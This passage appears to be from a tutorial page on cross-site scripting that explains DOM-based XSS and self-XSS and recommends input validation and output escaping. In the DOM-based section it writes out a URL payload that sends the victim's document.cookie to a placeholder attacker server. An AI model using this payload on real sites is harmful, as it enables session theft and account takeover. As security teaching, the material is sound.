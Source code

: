 Instead of going through the server this type of attack exploits the local copy of web available on user's browser.

javascript's libraries like jQuery is prone to this sort of attack as they dynamically alters DOM based elements .

So this type of XSS takes in the user input and modifies the source code of the page. 

`Normal scenario:`
There exists a function on web app to display the location of the user.

There is a parameter in the url called location where the value in parameter is displayed on page like,

" Welcome user from India "

And the url for the same will be like,
```query
https://example.com?location=India
```


`Adversary:`
There is a scope for us to inject the payload to the url parameter.

`payload:`
```js
https://example.com?locale=    <script>location='http://attacker_server_ip/?c='+document.cookie;</script>
```

## Self-XSS

This attack requires a lot of social engineering. Here victim have to inject the code into the vulnerable part of the website by themselves.


You might have seen social media posts like "copy and paste this code and do  something cool" this might  probably be a javascript code aimed for self XSS. 

## Prevention


To prevent an XSS an application should implement two controls:
- Robust input validation
- Contextual output escaping and encoding.

To be specific,

Let's say user entered `<script>` in the input. This should never be inserted into html document directly. 

The server should validate that the user input doesn't contains dangerous characters, that might interfere with the program's logic.

- The application could check for the special characters in user input before processing. 

There is method for this called `escaping` where the special characters are `encoded`, so that it won't be interpreted as code, and it will only be taken in it's literal meaning ie, strings.
